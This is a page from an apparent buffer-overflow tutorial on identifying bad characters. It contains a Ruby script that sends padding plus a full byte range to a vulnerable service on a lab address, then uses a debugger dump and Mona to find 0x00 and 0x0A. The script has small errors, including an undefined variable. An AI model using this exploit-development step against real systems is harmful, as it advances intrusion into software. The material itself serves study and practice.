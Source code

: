 One important step in BOF is to identify bad characters. I followed a bit different way to find all bad characters.
```Ruby
require 'socket'

badchar_test = ""
badchars = [0x00,0x0A]

(0x00..0xFF+1).step(1) do |i|
    if !badchars.include?(i)
        badchar_test += i.chr(Encoding::UTF_8)
    end
end

File.open("test_badchar.bin", 'w') { |file| file.write(badchar_test)}

buff = "A"*146
buff += "B"*4
buff += badchar_test
RHOST = "192.168.0.227"
RPORT = 31337

begin
    s = TCPSocket.open(RHOST, RPORT)
    s.puts buff + '\r\n'
    s.close
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```
When we run this script against the vulnerable program, it will generate a file called "badcahr_test.bin". After the crash, right click on ESP and click on "Follow in Dump":

![Badchars Dump](badcharsDump.png)

We can now bring our badchars_test.bin to our Windows VM by using
```python -m SimpleHTTPServer 80```

And with the help of Mona modules, we can compare the file to the actual badchars in the dump:

![Find Badchars](findBadchars.png)

We can see x00 and x0A are bad characters that we need to omit in our custom payload.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)

